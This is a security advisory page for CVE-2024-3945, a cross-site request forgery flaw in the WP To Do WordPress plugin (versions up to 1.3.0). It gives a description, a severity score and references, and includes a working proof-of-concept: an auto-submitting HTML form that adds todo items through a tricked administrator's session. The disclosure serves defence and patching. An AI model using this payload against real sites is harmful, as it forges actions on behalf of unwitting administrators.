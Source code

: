 ```yaml
---
layout: page
title: CVE-2024-3945
subtitle: WP To Do <= 1.3.0 - Cross-Site Request Forgery via wptodo_manage()
---
```

## Description
The WP To Do plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.3.0. This is due to missing or incorrect nonce validation on the wptodo_manage() function. This makes it possible for unauthenticated attackers to add new todo items via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.3.0

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / https://x.com/aaillesim -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php?page=wp-todo" method="POST">
      <input type="hidden" name="wptodo&#95;addtask" value="true" />
      <input type="hidden" name="wptodo&#95;from" value="1" />
      <input type="hidden" name="wptodo&#95;title" value="eneri" />
      <input type="hidden" name="wptodo&#95;description" value="eneri" />
      <input type="hidden" name="wptodo&#95;deadline" value="2024&#45;04&#45;16" />
      <input type="hidden" name="wptodo&#95;for" value="2" />
      <input type="hidden" name="wptodo&#95;status" value="1" />
      <input type="hidden" name="wptodo&#95;priority" value="4" />
      <input type="hidden" name="wptodo&#95;notify" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://plugins.trac.wordpress.org/browser/wp-todo/trunk/inc/Base/Model.php#L273
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-todo/wp-to-do-130-cross-site-request-forgery-via-wptodo-manage





